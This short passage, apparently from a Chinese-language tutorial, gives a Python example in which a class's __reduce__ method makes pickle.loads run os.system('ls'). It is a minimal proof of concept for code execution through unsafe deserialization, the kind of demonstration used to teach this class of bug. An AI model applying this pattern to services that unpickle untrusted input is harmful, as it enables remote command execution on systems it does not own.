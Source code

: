 
例：

```python
import pickle
import os

class Rce(object): 
    def __reduce__(self):
        return (os.system,('ls',))

a = Rce()
b = pickle.dumps(a)
pickle.loads(b)  # 执行该语句进行反序列化，自动执行 __reduce__ 方法，并且执行 os.system('ls')
```

